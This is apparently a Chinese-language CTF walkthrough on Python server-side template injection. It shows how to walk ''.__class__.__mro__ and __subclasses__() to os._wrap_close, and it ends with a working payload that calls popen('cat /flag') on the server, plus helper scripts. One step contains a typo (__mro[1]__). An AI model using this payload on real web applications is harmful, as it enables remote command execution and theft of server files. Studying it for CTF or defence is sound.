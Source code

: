 1.获取字符串的类对象

```
输入：''.__class__
输出：<type 'str'>
```

2 、寻找基类

```
输入： ''.__class__.__mro__
输出：(<type 'str'>, <type 'object'>
其中输入：__mro__可以换成__bases__
```

3.寻找子类

```
输入：''.__class__.__mro[1]__.__subclasses__()
subclasses加括号，返回子类，不加括号，返回地址
输出：<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>  .......
```

这儿我们用python来找到可用的子类

```python
a = """子类"""
num = 0
allList = []
result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i
# enumerate正对于列表和元组，有序号，需要将上面的字符串全部转换为列表才能遍历。
for k, v in enumerate(allList):
    if "os._wrap_close" in v: #找可用的引用类和序号
        print(str(k) + "--->" + v)
```

我们找序号132的os._wrap_close

我们就可以利用这个子类，使用命令执行

```
{{''.__class__.__mro__[2].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
popen后面的为命令执行语句，popen为全局变量的一个
```

这儿还有个找os模块的脚本(但是这个感觉不是太好用)

```python
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        print '-'
        num+=1
```
